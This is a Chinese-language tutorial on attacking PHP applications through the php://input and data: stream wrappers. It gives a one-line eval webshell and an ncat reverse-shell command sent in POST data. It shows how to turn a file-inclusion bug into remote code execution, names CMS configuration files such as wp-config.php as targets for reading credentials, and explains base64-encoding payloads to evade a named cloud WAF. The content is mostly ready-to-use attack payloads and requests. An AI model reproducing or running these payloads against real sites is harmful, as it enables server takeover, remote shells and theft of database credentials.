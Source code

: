 PHP提供了一些杂项输入/输出（IO）流，允许访问PHP的输入输出流、标准输入输出和错误描述符，内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。

#### 1. php://input简介

php://input是个可以访问请求的原始数据的只读流。POST请求的情况下，最好使用php://input来代替$HTTP_RAW_POST_DATA，因为它不依赖与特定的php.ini指令。

而且这样的情况下$HTTP_RAW_POST_DATA默认没有填充，比激活always_populate_raw_post_data潜在需要更少的内存。

enctype="multipart/form-data"的时候php://input是无效的。

#### 2. 利用php://input 插入一句话木马
```php
<?php
@eval(file_get_contents('php://input'));    
?>
```

php://input是用来接收post数据，在post中插入数据：
```
system('ncat -e /bin/bash localhost 1234');
```

测试了一下nc反弹shell的利用。

#### 3. php://input将文件包含漏洞变成代码执行漏洞

文件中存在包含漏洞的代码：
```php
<?php @include($_GET['file'])?>
```

使用php://input，将执行代码通过hackbar在POST data中提交，即构造请求，请求链接如下：
```
http://127.0.0.1/index.php?file=php://input
```

然后用hackbar或其他工具在POST data处写入：
```
<?php system('ifconfig');?>
```

#### 4. data URI schema

将文件包含漏洞变成代码执行漏洞并绕过360网站卫士的WAF。

很多时候我们是急需读取PHP格式的配置文件，例如：

- dedecms数据库配置文件data/common.inc.php
- discuz全局配置文件config/config_global.php
- phpcms配置文件caches/configs/database.php
- phpwind配置文件conf/database.php
- phpwind配置文件conf/database.php
- wordpress配置文件wp-config.php

举个例子，读取指定文件FileInclude.php的代码：
```
http://127.0.0.1/index.php?file=data:text/plain,<?php system('cat /var/www/FileInclude.php')?>
```

注意，我们看到转化后的GET请求的参数中包含\<?的标记，在遇到有些WAF，包括云WAF（例如360网站卫士），就会被视为攻击代码而拦截下来，所以一般会加base64编码。
```
# base64编码后传输
data:text/plain;base64,[攻击代码的base64编码]

# 直接传输
data:text/plain,[攻击代码]
```
